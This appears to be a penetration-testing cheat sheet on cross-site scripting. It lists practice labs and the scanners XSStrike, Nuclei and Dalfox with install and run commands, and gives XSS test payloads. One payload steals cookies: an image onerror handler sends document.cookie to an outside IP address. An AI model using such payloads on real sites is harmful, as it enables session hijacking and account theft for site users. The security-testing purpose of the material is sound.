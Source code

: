 ```yaml
---
description: Cross-site scripting cheat sheet
---
```


# XSS

Cross-site scripting (XSS) remains one of the common vulnerabilities that threaten web applications to this day. XSS attacks rely on injecting a malicious script in a benign website to run on a user’s browser.

### Playground

* [https://tryhackme.com/r/room/axss](https://tryhackme.com/r/room/axss)
* [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php)
* [https://xss-labs.abay.sh/xss/](https://xss-labs.abay.sh/xss/)

### Tools

**XSStrike**

XSStrike is a Cross Site Scripting detection suite equipped with four hand written parsers, an intelligent payload generator, a powerful fuzzing engine and an incredibly fast crawler.

* [https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

{% code overflow="wrap" %}
```bash
# Install
git clone https://github.com/s0md3v/XSStrike
cd XSStrike
python3 -m venv xsstrike_env
source xsstrike_env/bin/activate
pip3 install -r requirements.txt

# run
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --fuzzer
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php" --crawl -l 3
python3 xsstrike.py -u "https://brutelogic.com.br/xss.php?a=fuzz" --file xss.txt
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEj6vjZhXx_XMXjyfIXlDcQ3olR_mJFJ9vyJkDZqUOYNnQCzWDGUce_pb9cGm-TB4wN8g2RChnbB9DOY6ktcPmhpdAa2YNp4sdZKLcYpWKy_-WVCJCnAzvLsT4lhmWRRbVWPYQM9GIYEb0vWxgs92zbVWWtZnZerrO9NsErx2te4t_x4rz9pMxvWNXQetrw/s955/xsstrike.png" alt=""><figcaption><p>XSStrike</p></figcaption></figure>

**Nuclei**

Nuclei has some cool XSS detection template that can be used to hunt low hanging fruit XSS.

{% code overflow="wrap" %}
```bash
nuclei -u "https://brutelogic.com.br/xss.php?a=" -tags xss
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiKsc7jaQE8ZSpeD6GKn80EHz74yUCi4kYhDz9cvS3gyxFa42vuwwVRQWWHPdEh6CJ5t_eY2rqml331wuze62eDs7-1DFqkVO8B21XW9z1spp8AfCYyFILb7F2rGlE8JobvylS_qMAYM5ou_Ak9swAkjA1nOf5_Pe8LJV2m4MgOIw-HT4kTOg9TRzsQaBs/s1195/xss%20nuclei.png" alt=""><figcaption><p>Nuclei XSS</p></figcaption></figure>

**Dalfox**

DalFox is a powerful open-source tool that focuses on automation, making it ideal for quickly scanning for XSS flaws and analyzing parameters. Its advanced testing engine and niche features are designed to streamline the process of detecting and verifying vulnerabilities.

* [https://github.com/hahwul/dalfox](https://github.com/hahwul/dalfox)

Usage:

{% code overflow="wrap" %}
```bash
# basic scan
dalfox url https://brutelogic.com.br/xss.php

# scan with custom payload
dalfox url https://brutelogic.com.br/xss.php --custom-payload xss-payload.txt --skip-bav --only-custom-payload
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEggKvGxnkyI8R8QbZHtRDE7WYJkzhL1UcdB8LQYOK4iB54OFu0pC0OCcCEAjqWRq22Jx7ps2c-clA2GGUehA9IZ3cJwcx0NJ4yPLAP6VaV1R2m9kAed6VNdU8lcZVcxx7mLmnnXAGnf3PlxcAGTYXXVEYAOmM3j0YIjJHk6i5sIGcsXqEKjdtXJy7hGqDA/s923/dalfox.png" alt=""><figcaption><p><strong>Dalfox</strong></p></figcaption></figure>

### Simple Payload

This is a simple payload that I commonly use for XSS testing.

{% code overflow="wrap" %}
```javascript
" autofocus onfocus=alert(document.domain) x="
"/><img src=x onerror=alert(document.domain) />
```
{% endcode %}

For Cookie Stealing

{% code overflow="wrap" %}
```javascript
<img src="x" onerror="fetch('http://10.10.1.3:8000?c=' + encodeURIComponent(document.cookie))">
```
{% endcode %}

### Resources

* [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
* [https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting)
* [https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt](https://raw.githubusercontent.com/carlospolop/Auto\_Wordlists/main/wordlists/xss.txt)
